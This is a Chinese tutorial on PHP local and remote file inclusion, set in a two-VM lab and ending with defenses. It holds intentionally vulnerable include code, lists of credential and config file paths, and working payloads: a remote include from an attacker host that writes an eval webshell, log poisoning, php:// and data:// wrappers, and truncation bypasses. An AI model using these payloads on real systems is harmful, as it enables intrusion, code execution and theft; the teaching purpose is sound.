# 1. 文件包含漏洞介绍

## 1.1. 文件包含漏洞解释

文件包含漏洞就是使用函数去包含任意文件的时候，当包含的文件来源过滤不严谨的时候，当存在包含恶意文件后，就可以通过这个恶意的文件来达到相应的目的。

## 1.2. 文件包含漏洞原理

其实原理就是由于在代码开发的过程中，有时候会遇到相同的代码，不想重复输入，就将代码单独写在一个文件里面，当遇到的时候就直接调用该文件进行运行，而这种方式就会导致客户端可以调用其他的恶意文件，通过恶意文件造成文件包含漏洞。

但是前提也是当文件包含的代码文件被当作一个变量来使用，并且能够被用户传入参数，如果没有对该变量做相应的安全防护，就可能会引发出文件包含漏洞。

## 1.3. 文件包含的函数

### 1.3.1. 常见的文件包含函数

```
PHP：include() 、include_once()、require()、require_once()
JSP/Servlet：ava.io.file()、java.io.filereader()
ASP：include file、include virtual
```

### 1.3.2. PHP函数区别：

文件包含漏洞在PHP中是比较多的，像JSP、ASP这方面的漏洞是比较少的，但这并不是说就不存在。

include：包含并运行指定的文件，包含文件发生错误时，程序警告，但会继续执行。

include_once：和 include 类似，不同处在于 include_once 会检查这个文件是否已经被导入，如果已导入，下文便不会再导入，直面 once 理解就是只导入一次。

require：包含并运行指定的文件，包含文件发生错误时，程序直接终止执行。

require_once：和 require 类似，不同处在于 require_once 只导入一次。

## 1.4. 文件包含漏洞特征

其实在文件包含在URL中能够明显的看出来，但是不代表含有这些特征就一定有文件包含漏洞。只不过有这些特征可以进行判断是存在文件包含的，但是能不能利用是另一方面。

比如：

```
http://www.xxx.com/index.php/?name=x.php
http://www.xxx.com/index.php/?file=index2
```

## 1.5. 文件包含漏洞分类

### 1.5.1. 本地文件包含漏洞

本地文件包含，通过意思就能够理解，就是在条件允许的情况下，所谓的条件允许也就是安全防护没做到位，通过这个条件对文件路径加载文件，就形成了本地文件包含。

#### 1.5.1.1. 本地文件包含漏洞案例

例如php代码：

```
<?php
$filename=$_GET[name];
include($filename);
?>
```

在我网站根目录下面有一个index.php，通过文件包含进行执行，就形成了本地文件包含，若这个name参数能够被用户控制，那么就形成了本地文件包含漏洞。



### 1.5.2. 远程文件包含漏洞

远程文件包含漏洞导致的原因和本地文件包含漏洞造成的原因是一样的，只不过远程文件包含漏洞是利用外部的服务器中的文件进行执行，就形成了远程文件包含漏洞。

但是前提是需要在php.ini中的配置选项中allow_url_fopen和allow_url_include为ON。



#### 1.5.2.1. 远程文件包含漏洞案例

准备两台虚拟机，一台做网站服务器，另外一台做攻击者主机。

网站服务器：192.168.10.150

攻击者主机：192.168.10.50

网站服务器php代码：

```
<?php
$filename=$_GET[name];
include($filename);
?>
攻击者主机php代码：
<?php phpinfo();?>
```

攻击者访问服务器网站，并把主机上的本地文件进行远程文件包含。



## 1.6. 文件包含漏洞危害

读取WEB服务器上的配置文件以及WEB服务器上的敏感文件，并且若和webshell联动，并将恶意代码执行将造成更大的危害，通常来说远程文件包含漏洞危害更大。

## 1.7. 文件包含漏洞特点

### 1.7.1. 无视文件扩展名

在PHP中当使用上面的一些函数的时候，这个文件就会被当作PHP代码进行执行，PHP内核并不会在意包含的文件是什么类型的，也就是说当发过来的是.png的文件也会被当作PHP执行。

#### 1.7.1.1. 无视文件扩展名案例

例如这里将原来含有\<?php phpinfo();?\>代码的php文件后缀名修改为jpg的时候，依旧执行了php代码。



### 1.7.2. 无条件解析PHP代码

文件包含漏洞在读取源码的时候，若遇到符合PHP语法规范的代码，将会无条件执行。

# 2. 文件包含漏洞利用方式

## 2.1. 判断服务器类型

其实判断服务器类型还是很好判断的，当我们读取一个文件的时候在linux系统该然后读取？

在linux系统当存在1.php的时候读取就是cat 1.php，而且读取的内容假如是："I Love You"，若是读取1.Php那么还能够显示"I Love You"吗？结果肯定是不行的，由于在linux中是严格区分大小写的。而在windows中是不区分大小写的，这里就可以使用windows进行测试。



通过上面的图片能够看出来，我在URL中读取的是1.phP，但文件夹中只有2.php，但依旧显示PHP的默认文件。这就验证了我上面提到的Windows是不区分大小写的。

## 2.2. 敏感文件读取

所谓读取敏感文件，就是将WEB服务器上一些其他文件读取出来，这些其他文件中可能包含一些敏感文件，私密文件或者是一些数据、表格等。

### 2.2.1. 绝对路径读取

绝对路径是指目录下的绝对位置，直接到达目标位置，通常是从盘符开始的路径，绝对路径读取就是通过明确的路径进行读取文件，比如windows或者linxu中的一些日志文件存在的路径，或者一些配置文件存放的路径。

#### 2.2.1.1. windows敏感文件绝对路径

```
c:\boot.ini                     #查看系统版本
c:\windows\system32\inetsrv\MetaBase.xml      #IIS配置文件
c:\windows\repair\sam          #存储Windows的密码
c:\programFiles\mysql\my.ini     #mysql配置文件，里面可能有密码
c:\programFiles\mysql\data\mysql\user.MYD      #mysql root密码
c:\windows\php.ini             #php配置文件
```

#### 2.2.1.2. linux敏感文件绝对路径

```
/etc/passwd                      #用户密码
/usr/local/app/apache2/conf/httpd.conf         #apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf   #虚拟网站设置
/usr/local/app/php5/lib/php.ini       #php相关设置        
/etc/httpd/conf/httpd.conf           #apache配置文件        
/etc/my.cnf                       #mysql配置文件
/etc/sysconfig/iptables              #查看防火墙策略
```

#### 2.2.1.3. 绝对路径读取案例

通过URL看到我这里是直接读取我C:\tool\PHPTutorial\1.txt的文件。



### 2.2.2. 相对路径读取

相对路径就是指由这个文件所在的路径引起的跟其它文件（或文件夹）的路径关系。相对路径读取就是当我们不知道某个文件具体路径的时候，使用相对路径以当前位置作为参看向后退，逐次访问。

#### 2.2.2.1. 相对路径读取方式

相对利用读取方式就需要使用"../"来进行读取，一次"../"向后退一次。

例如：当我们在C:\tool\PHPTutorial\www的时候，那么我们使用"../"的时候我们就退到C:\tool\PHPTutorial，若使用两次"../"的时候就会退到C:\tool，两次"../"也就是"../../"就可以了。

#### 2.2.2.2. 相对路径读取案例1

这里我把1.txt创建在C:\tool\PHPTutorial目录下，而现在这个文件包含漏洞放在www下也就是C:\tool\PHPTutorial\www，所以这里我只需要输入一次"../"就可以读取到1.txt了。



#### 2.2.2.3. 相对路径读取案例2

这里我们思考一下若我们要访问C:\windows\win.ini，该怎么读取呢？其实这里可以先退到根目录下也就是C盘下，然后在访问windows中的win.ini。

目前我们在C:\tool\PHPTutorial\www下面，那么可以算一下我们要退几次？这里通过目录也能够看出来，这里只需要退三次就可以到C盘下了。

这里由于无法在C盘中创建文件，就无法演示了，那么这里我们直接读取C:\windows\win.ini吧。



#### 2.2.2.4. 相对路径读取案例3

这里又出现一个问题，若我们并不知道我们存在那个目录下，更不知道该退几级怎么办？其实这里通过"../"退可以多退几次，因为最终只能够退到C盘，所以在不知道几级的情况下，可以多输入几个"../"。

可以看我下面的图片，我原本只需要退三次就可以了，而我这里退八次依旧能读取到，所以就能证明刚刚我所解释的，不管输入多少个"../"最终只会退到C盘。



## 2.3. 远程文件读取

远程文件包含大概意思在之前已经提过了，这里就演示一下案例。

前提条件：目标服务器的allow_url_fopen选项是on。只有当这个选项是on的时候就能够使用远程文件包含一句话木马。

### 2.3.1. 远程文件配合一句话木马案例

网站服务器：192.168.10.150

攻击者主机：192.168.10.50

攻击者php代码：

```
<?php fputs(fopen("shell.php", "w"),"<?php @eval($_POST['pass']);?>")?>
```

这句话的意思就是当访问这个php代码后就会在当前目录生成一个shell.php文件，并且这个文件中含有一句话木马。



通过查看服务器网站根目录，可以看到这里已经创建了一个名为shell.php的文件。那么我们通过这个文件使用蚁剑进行连接。



通过上面的图片可以看到，我们已经成功连接了。这里需要注意的是，我们这个地址是知道的，若在实际环境中操作的时候可能需要注意查找路径。

## 2.4. 伪协议读取

### 2.4.1. PHP伪协议介绍

```
file://    #访问本地文件系统
http://    #访问HTTPs网址
ftp://     #访问ftp URL
php://     #访问输入输出流
zlib://     #压缩流
data://    #数据
ssh2://    #security shell2
expect://  #处理交互式的流
glob://   #查找匹配的文件路径
```


### 2.4.2. PHP伪协议利用方式

这里举几个例子进行演示一下，由于部分伪协议需要且版本并且需要调配置，这里就不来回切换了。

#### 2.4.2.1. file利用方式

file其实和绝对路径读取差不多。

```
URL：http://192.168.10.150/1.php/?name=file://C:/Windows/win.ini
```



#### 2.4.2.2. http利用方式

其实http这里的利用方式，除了能够跳转，还能进行远程包含进行漏洞执行。

```
URL：http://192.168.10.150/1.php/?name=http://www.baidu.com
```



#### 2.4.2.3. data利用方式

从php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是php代码，就会执行任意代码。

这里需要注意若使用data的话需要allow_url_include 和allow_url_fopen为on。

```
URL：http://192.168.10.150/1.php/?name=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
"PD9waHAgcGhwaW5mbygpPz4="是通过base64加密的\<?php phpinfo();?\>
```



#### 2.4.2.4. php利用方式

1）php://filter

php://filter 可以在执行代码前将代码换个方式读取出来，只是读取，不需要开启，读取源代码并进行 base64 编码输出，不然会直接当做 php 代码执行就看不到源代码内容了

```
用法：php://filter/read=convert.base64-encode/resource=要读取的文件
URL：http://192.168.10.150/1.php/?name=php://filter/read=convert.base64-encode/resource=2.php
解密：<?php phpinfo();?>
```



当然里不单单只能读取当前目录下的文件，这里就演示一下另外一种读取方式，我将文件放在上一级目录中，通过php进行读取。

```
URL：http://192.168.10.150/1.php/?name=php://filter/read=convert.base64-encode/resource=../2.php
```

仔细看URL连接就能看出来，这里使用了之前提到的相对路径读取。


2.  php://input

php://input主要是用来执行php代码的，不过php://input需要以POST提交，这里我们先在URL中添加php://input然后抓包把GET修改为POST，最后在数据包的最后输入想要执行的代码就可以实现代码执行。

```
URL：http://192.168.10.150/1.php/?name=php://input
```





## 2.5. 文件包含日志读取

日志会记录客户端请求及服务器响应的信息，访问http://www.xx.com/\<?php phpinfo(); ?\>时，\<?php phpinfo(); ?\>也会被记录在日志里，也可以插入到User-Agent，但是请求的信息有可能被url编码之后记录日志，这里可以通过burp来发送请求包来防止被编码，通过相对路径找到日志文件，利用包含漏洞执行。

### 2.5.1. 各类日志存在位置

#### 2.5.1.1. Apache

apache存在两个文件日志文件，access.log是记录登录等信息的日志文件，而error.log是错误文件。

```
Windows系统：
apache安装目录/logs/access.log或者error.log
linux系统：
/var/log/apache/access.log或者error.log
/var/log/apache2/access.log或者error.log
/etc/httpd/logs/access_log或者error.log
```

#### 2.5.1.2. Nginx

nginx存在两个文件日志文件，access.log是记录登录等信息的日志文件，而error.log是错误文件。

```
Windows系统：
nginx安装目录/logs/access.log或者error.log
2）linux系统：
/var/log/nginx/access.log或者error.log
```

#### 2.5.1.3. IIS

```
iis6.0版本
C:\windows\system32\LogFiles
iis7.5版本
%SystemDrive%\inetpub\logs\LogFiles
```

### 2.5.2. **包含Apache日志案例**

Apache运行后一般默认会生成两个日志文件，access.log(访问日志)，error.log(错误日志)。

下图就是被转码的，只需要手动修改一下重新发送即可。

```
URL：http://192.168.10.150/<?php @eval($_POST[123]);?>
```



在apache/logs/access.log中就能够看到我们植入的恶意代码。编号①是没使用burp修改前的，编号②是使用burp修改后的。


通过对本地的日志文件进行包含读取，输入123=phpinfo();。

```
URL:http://192.168.10.150/1.php/?name=../Apache/logs/error.log
```



当然也可以使用蚁剑来进行连接。

```
URL：http://192.168.10.150/1.php/?name=../Apache/logs/error.log
连接密码：123
```



# 3. 文件包含漏洞绕过方式

## 3.1. 本地文件包含绕过

### 3.1.1. 空字符绕过

空字符绕过是存在PHP小于5.3.4版本的一个漏洞，这个漏洞就是用于接收来自路径中的空字符，这样在部分需求下攻击者可以利用将此字符放置安全文件后面来绕过访问限制。

前提条件就是需要PHP版本小于5.3.4，并且关闭PHP魔术引导。

#### 3.1.1.1. PHP魔术引导介绍

当sql句中含有单引号，双引号，反斜杠和NUL时，这时候如果不对这些符号进行转义，写入数据库时就会出错，而魔术引号magic_quotes_gpc()就是对这些符号进行转义以便能把数据正确写入数据库。不过该参数在php.ini文件中修改。

PHP魔术引号特性已自 PHP5.3.0起废弃并将自PHP5.4.0起移除。也就是说在本实验环境的PHP版本中仍是存在的

#### 3.1.1.2. 前提准备

靶机版本切换至php-5.2.17+apache，并且把魔术引导关闭。





新建PHP代码：

```
<?php
$name=$_GET['name'];
include($name.".html");
?>
```

#### 3.1.1.3. 空字符绕过案例

在正常访问的时候可以发现访问的文件后面被添加了.html。



若这里没有关闭魔术引导而直接通过空字符绕过就会变成2.php\0.html。但是这里关闭魔术引导后再使用空字符绕过就能够显示正常了。

```
URL：http://192.168.10.150/1.php/?name=2.php%00
```



### 3.1.2. 超长字符绕过

超长字符截断就是利用操作系统对目录最大长度的限制，在Windows中目录长度不可以超过256字节，linux中目录长度不可以超过4096字节。超过的部分会被丢弃。

可以使用"./"进行填充，当然不单单"./"可以填充，使用"."也可以，至于还有那些可以绕过，可以自己去试试。

#### 3.1.2.1. 超长字符绕过案例

正常访问的我们就不去尝试了，直接使用超长字符绕过吧，这里在测试的时候发现，在使用"./"进行绕过的时候不能全部使用"./"需要参合点"/"，不过测试后发现，只需要在读取的本地文件后面多添加几个"/"。



## 3.2. 远程文件包含绕过

### 3.2.1. 空字符绕过

这里的绕过和本地文件包含绕过一样。



### 3.2.2. 超长字符绕过

这里我测试后发现，远程文件包含好像只能使用"./"，其它的像"."",""。""："都不能绕过。



### 3.2.3. ?绕过


### 3.2.4. 常见特殊字符编码



### 3.2.5. \#绕过

这里我使了一下直接使用#并不能绕过，需要输入编码%23才能够生效，在绕过的时候需要注意一下。



### 3.2.6. 空格绕过

这里也是一样需要使用编码%20进行绕过，不能直接输入空格。



# 4. 文件包含漏洞防御

1.  设置白名单：若是在编写代码的时候能够确定文件包含的文件名的时候，那么最好使用白名单进行参数传入。

2.  过滤危险字符：由于Incbude/Require可以对PHP Wrapper形式的地址进行包含执行(需要配置php.ini)， 在Linux环境中可以通过"../../"的形式进行目录绕过，所以需要判断文件名称是否为合法的PHP文件。

3.  设置文件目录：PHP配置文件中有open_basedir选项可以设置用户需要执行的文件目录，如果设置目录的话，PHP仅仅在该目录内搜索文件。

4.  关闭危险配置：PHP配置中的allow_url_include选项如果打开，PHP会通过Include/Require进行远程文件包含，由于远程文件的不可信任性及不确定性，在开发中禁止打开此选项，PHP默认是关闭的。
